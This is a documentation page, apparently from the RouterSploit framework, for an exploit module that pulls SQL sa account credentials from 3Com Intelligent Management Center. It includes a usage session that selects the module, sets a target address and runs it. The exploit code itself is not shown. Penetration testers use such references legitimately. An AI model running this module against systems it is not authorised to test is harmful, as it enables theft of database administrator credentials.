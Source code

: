 # 3Com IMC Info Disclosure

## Description
Exploits 3Com Intelligent Management Center information disclosure vulnerability that allows to fetch credentials for SQL sa account

## Authors
* Richard Brain # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/12680/](https://www.exploit-db.com/exploits/12680/)

## Vulnerable devices
* 3Com Intelligent Management Center

## Usage
```
rsf > use exploits/3com/imc_info_disclosure
rsf (3Com IMC Info Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       8080                 Target port


rsf (3Com IMC Info Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (3Com IMC Info Disclosure) > run
[*] Running module...
```
